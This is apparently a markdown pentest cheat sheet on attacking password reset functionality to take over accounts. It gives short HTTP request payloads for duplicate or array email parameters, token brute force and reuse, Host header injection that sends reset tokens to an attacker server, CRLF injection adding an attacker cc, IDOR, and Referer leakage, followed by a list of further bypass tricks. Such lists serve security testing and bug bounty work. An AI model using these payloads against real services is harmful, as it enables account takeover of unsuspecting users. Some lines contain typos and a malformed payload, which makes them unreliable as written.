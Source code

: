 ```yaml
---
description: Below are some references for the Password Reset Functionality attacks.
---
```


# **Password Reset Functionality**

## **Concept**

In this vulnerability attacker tries to attack the password rest functionality of the application, if the attacker is successful in doing so this might lead to full account takeover, Below are some way to exploit this attack.

## **Ways to bypass**

### **Include your email as second parameter**

```
POST  /reset
[....]
email=victim@xyz.com&email=attacker@abc.com
```

### **Brute force the password reset token**

```
POST  /reset
[....]
email=victim@xyz.com&token={bruteforce}
```

### **Try to use reset token to victims account**

```
POST  /reset
[....]
email=victim@xyz.com&token={yourtoken}
```

### **Host header injection (try changing the host, this might lead to passing the token to attackers server)**

```
POST  /reset
Host: Attacker.com
```

### **Try figuring how the tokens are generated**

```
Like
They might be generated based on timestamp.
They might be generated based on the user id.
They might be generated based on the email id.
```

### **CRLF Injection**

```
POST  /reset
[....]
email="victim@mail.tld%0a%0dcc:attacker@mail.tld"
```

```
 CLRF: 
 POST /resetPassword?0a%0dHost:atracker.tld (x-host, true-client-ip, x-forwarded...)
```

### **Business logic**

```markup
While inviting users into your account/organization, 
you can also try inviting company emails and add a new field
"password": "example123". or "pass": "example123" in the 
request. you may end up resetting a user password.
(company email can be found here 
hunter.io)
```

### **JSON array**

```
POST  /reset
[....]
{"email":["victim@mail.tld","atracker@mail.tld"]}
```

### **Token leakage via refer header**

```
POST  /reset
[....]
Referer:https://xyz.com/token={token}
```

### **IDOR for password reset (we can change the id parameter)**

```
POST  /reset
[....]
id=1234&
```

### **Some other ways**

* Race condition
* Completely remove the token
* change it to 00000000...
* use null/nil value
* try expired token
* Reusing the old password reset token
* try an array of old tokens
* change 1 char at the begin/end to see if the token is evaluated
* use unicode char jutzu to spoof email address
* try victim@email.com\&attacker@email.com use %20 or | as separators
* change request method (get, put, post etc) and/or content type (xml<>json)
* match bad response and replace with good one
* use super long string

